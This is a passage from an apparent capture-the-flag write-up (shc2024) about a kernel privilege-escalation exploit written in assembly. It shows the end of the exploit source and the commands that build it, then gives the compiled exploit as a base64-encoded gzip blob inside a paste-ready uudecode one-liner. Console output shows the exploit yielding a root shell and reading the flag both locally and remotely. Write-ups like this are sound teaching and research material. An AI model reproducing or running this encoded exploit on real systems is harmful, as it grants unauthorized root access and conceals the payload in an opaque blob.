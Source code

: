 ```asm
ioctl_arg      equ     task + 8
cred           equ     ioctl_arg + 24
buf            equ     cred + CRED_SIZE

filesize       equ     $ - $$
```

All that gives us a nice 214-bytes binary, that can be easily uuencoded:

```
$ nasm -f bin -o exploit exploit.asm && chmod +x exploit && gzip -9 exploit
$ ls -la exploit.gz
-rwxr-xr-x. 1 muflon muflon 214 Apr 20 22:03 exploit.gz
$ echo "echo -e \"$(uuencode -m exploit.gz /tmp/exploit.gz | tr '\n' _ | sed 's/_/\\n/g')\" | uudecode"
echo -e "begin-base64 755 /tmp/exploit.gz\nH4sICKEfJGYCA2V4cGxvaXQAq3f1cWNiZGSAASYGOwYQr6KBhQPEd2DABA4M\nFgwwHSCaHVkSqg9GR0EVwmgGAQjlsd+nEaJiHxOQ2LUNKL8DxOJn9eg87rEr\nCSrrcfzACSnFJo9OJo/jThxRQFEgLQCS2qcAJHYIQLR0s6iC5XQ7mIF6bB3E\nFZtKMqGafkE1gaxGUi/UARSGqKiCqmhAMtHwQLhHr41qHVBqJ8i6z6vj9xlg\n2vgy6f///ztswGL6Kall+gWZBak5mXmpDADpL3sJWgEAAA==\n====\n" | uudecode
```

# Final exploit

## Local

Pasting that `echo` command in the VM console:

```
/ $ echo -e "begin-base64 755 /tmp/exploit.gz\nH4sICKEfJGYCA2V4cGxvaXQAq3f1cWNiZGSAASYGOwYQr6KBhQPEd2DABA4M\nFgwwHSCaHVkSqg9GR0EVwmgGAQjlsd+nEaJiHxOQ2LUNKL8DxOJn9eg87rEr\nCSrrcfzACSnFJo9OJo/jThxRQFEgLQCS2qcAJHYIQLR0s6iC5XQ7mIF6bB3E\nFZtKMqGafkE1gaxGUi/UARSGqKiCqmhAMtHwQLhHr41qHVBqJ8i6z6vj9xlg\n2vgy6f///ztswGL6Kall+gWZBak5mXmpDADpL3sJWgEAAA==\n====\n" | uudecode
/ $ gunzip /tmp/exploit.gz
/ $ /tmp/exploit
/ # id 
uid=0(root) gid=0(root) groups=1000
/ # cat /flag
shc2024{DEMO_FLAG_DO_NOT_SUBMIT}
```

## Remote

And, finally, doing this in the CTF environment:

```
/ # cat /flag
shc2024{I_did_tax_evasion_for_fun_and_pr0fit}
```


